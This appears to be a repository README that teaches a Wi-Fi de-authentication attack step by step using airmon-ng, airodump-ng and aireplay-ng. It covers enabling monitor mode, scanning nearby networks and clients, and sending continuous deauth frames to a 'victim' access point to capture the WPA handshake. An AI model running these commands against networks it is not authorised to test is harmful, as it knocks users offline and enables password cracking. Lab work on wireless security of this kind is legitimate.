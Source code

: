# Wireless Penetration Testing via De-authentication Frames

## Pre-requisites
Enable **monitor mode** for your network adapter. You can use the following commands to enable monitor mode - 
```
sudo ifconfig <wireless-connection-name> down
sudo iwconfig <wireless-connection-name> mode monitor
sudo ifconfig <wireless-connection-name> up
```
<img src="./images/step-1-enable-monitor-mode.png"></img>

# Steps to perform de-authentication attack

## Step-1: Check Interfering Process 
`airmon-ng` can be used to check the process currently running that **can interfere and prevent us** from performing our wireless penetration attack.<br>
Command used to check the interfering process is -<br>
```
sudo airmon-ng start <wireless-connection-name>
```
<img src="./images/step-2-check-interfering-process.png"></img>

## Step-2: Kill Interfering Process 
`airmon-ng` again can be used to kill the interfering processes discovered in step-1.<br>
Command used to kill the interfering process is -<br>
```
sudo airmon-ng check kill <wireless-connection-name>
```
<img src="./images/step-3-kill-interferring-process.png"></img>

## Step-3: Re-enable Monitor Mode 
After killing interfering processes, your network card would enter managed mode again. Use the [following] commands to enable monitor mode again

## Step-4: Monitor Wireless Connections Surrounding You
Using `airodump-ng`, you can **monitor the list of wi-fi networks** around you.<br>
Command used to monitor the list of wi-fi networks is -<br>
```
sudo airodump-ng <wireless-connection-name>
```
<img src="./images/step-4-check-wireless-connections-around-you.png"></img>

## Step-5: Monitor Devices Connected to Selected MAC Address
Using `airodump-ng`, you can also  **monitor the list MAC addresses that are connected to a particular wifi network**.<br>
Command used to monitor the MAC address is -<br>
```
sudo airodump-ng -c <channel-number> --bssid <MAC-address-of-victim-machine> -w <file-name> <wireless-connection-name>
```
<img src="./images/step-5-check-mac-addresses-connected-to-selected-wifi.png"></img>

## Step-6: Start Sending De-authentication Frames
In this step, using `aireplay-ng` you can **start sending de-auth frames** to victim's machine until 4-way handshake is captured.<br>
Command used to **send de-auth frames** is -<br>
```
aireplay-ng -0 0 -a <MAC-address-of-victim-machine> <wireless-connection-name>
```
<img src="./images/step-6-send-deauth-packets.png"></img>
